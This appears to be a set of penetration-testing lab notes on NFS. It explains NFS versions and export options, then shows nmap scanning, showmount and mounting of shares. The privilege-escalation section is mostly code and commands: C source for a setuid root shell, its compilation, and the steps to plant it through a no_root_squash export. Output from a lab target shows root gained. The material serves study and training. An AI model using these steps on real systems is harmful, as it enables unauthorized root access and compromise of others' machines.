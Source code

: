 | **Version** | **Features**                                                                                                                                                                                                                                                         |
| ----------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `NFSv2`     | It is older but is supported by many systems and was initially operated entirely over UDP.                                                                                                                                                                           |
| `NFSv3`     | It has more features, including variable file size and better error reporting, but is not fully compatible with NFSv2 clients.                                                                                                                                       |
| `NFSv4`     | It includes Kerberos, works through firewalls and on the Internet, no longer requires portmappers, supports ACLs, applies state-based operations, and provides performance improvements and high security. It is also the first version to have a stateful protocol. |

| **Option**         | **Description**                                                                                                                             |
| ------------------ | ------------------------------------------------------------------------------------------------------------------------------------------- |
| `rw`               | Read and write permissions.                                                                                                                 |
| `ro`               | Read only permissions.                                                                                                                      |
| `sync`             | Synchronous data transfer. (A bit slower)                                                                                                   |
| `async`            | Asynchronous data transfer. (A bit faster)                                                                                                  |
| `secure`           | Ports above 1024 will not be used.                                                                                                          |
| `insecure`         | Ports above 1024 will be used.                                                                                                              |
| `no_subtree_check` | This option disables the checking of subdirectory trees.                                                                                    |
| `root_squash`      | Assigns all permissions to files of root UID/GID 0 to the UID/GID of anonymous, which prevents `root` from accessing files on an NFS mount. |


### Scanning

````bash
sudo nmap x.x.x.x -p111,2049 -sV -sC
sudo nmap --script nfs* x.x.x.x -sV -p111,2049
````

Viewing Who can access the NFS device:

```bash
showmount -e x.x.x.x
```

Mount NFS share::

```bash
mkdir target-NFS
sudo mount -t nfs x.x.x.x:/ ./target-NFS/ -o nolock
```

Or:

```bash
sudo mount -t nfs [-o vers=2] <ip>:<remote_folder> <local_folder> -o nolock
cd target-NFS
tree .
sudo umount ./target-NFS
````
### Privilege Escalation

Targets configuration file:

```bash
cat /etc/exports

# /etc/exports: the access control list for filesystems which may be exported
#		to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
/var/nfs/general *(rw,no_root_squash)
/tmp *(rw,no_root_squash)
```

| Option           | Description                                                                                                                   |
| ---------------- | ----------------------------------------------------------------------------------------------------------------------------- |
| `root_squash`    | Converts root access to an unprivileged user (`nfsnobody`), preventing root-owned file creation and potential security risks. |
| `no_root_squash` | Allows root access to create files as root, which can be a security risk.                                                     |
With the `no_root_squash`, we can escalate to `root`.

From the attacking system:

```bash
showmount -e 10.129.2.210
Export list for 10.129.2.210:
/tmp             *
/var/nfs/general *
```

Use the following c code:

```bash
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <stdlib.h>

int main(void)
{
  setuid(0); setgid(0); system("/bin/bash");
}
```

Compile:

```bash
gcc shell.c -o shell --static
```

Mount target:

```bash
mkdir priv_esc
sudo mount -t nfs 10.129.2.210:/tmp priv_esc/
cp shell priv_esc/
cd priv_esc/
su root
chmod u+s shell <-- Make sure you are the root user locally
```

Back on target:

``` bash
cd /tmp
ls -lash
total 68K
4.0K drwxrwxrwt 13 root root 4.0K Feb  4 12:06 .
4.0K drwxr-xr-x 25 root root 4.0K Jan 25  2024 ..
4.0K drwxrwxrwt  2 root root 4.0K Feb  4 11:55 .font-unix
4.0K drwxrwxrwt  2 root root 4.0K Feb  4 11:55 .ICE-unix
 16K -rwsr-xr-x  1 root root  16K Feb  4 12:06 shell

 ./shell 
# id
uid=0(root) gid=0(root) groups=0(root),1008(htb-student)
```

